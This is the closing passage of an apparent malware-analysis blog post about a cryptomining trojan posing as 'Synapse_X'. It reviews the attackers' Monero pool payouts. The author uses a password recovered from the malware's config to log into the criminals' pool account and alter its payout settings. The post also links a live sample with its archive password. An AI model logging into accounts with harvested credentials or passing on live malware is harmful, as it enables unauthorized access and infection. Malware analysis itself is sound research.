

Woah, 53 online workers. Looking at the payout history is even more telling:



At the time of writing, the mining pool has paid out 52.805224 XMR, or ~$7612 USD. This mining pool has been active since at least 2022-07-05 (judging from the earliest payout). Since we dumped the nanopool config, we also have the account password `bardik`, using this I was able to slow the payments to our russian cyber friends by setting the minimum payout to 9.337 XMR. This is a minor inconvenience for them and won't necessarily hurt them, however it's fun to poke at criminals lol.


## Conclusion

I originally planned on quickly going through this malware, however it ended up being a bit larger than I anticipated. There's still 3 payloads I haven't even looked at yet. One of which is a payload written in GoLang. I kind of plan to take a look at them, but feel free to take them apart yourselves! I'll upload a copy of the original sample below. Password is `1234`.

[==> Download the sample here.](Synapse_X.rar)
> Be careful! It's a live sample and I don't want any emails about how I "gave you a virus."
> NOTE: 2022 Dec 13th -- The C2 for this sample seems to have gone down (or moved). I didn't keep a copy of the various payloads it dropped (sorry!!), so unfortunately unless I come across the same threat actors in the future (or someone emails me a copy!) I won't be able to continue the analysis of this. Sorry!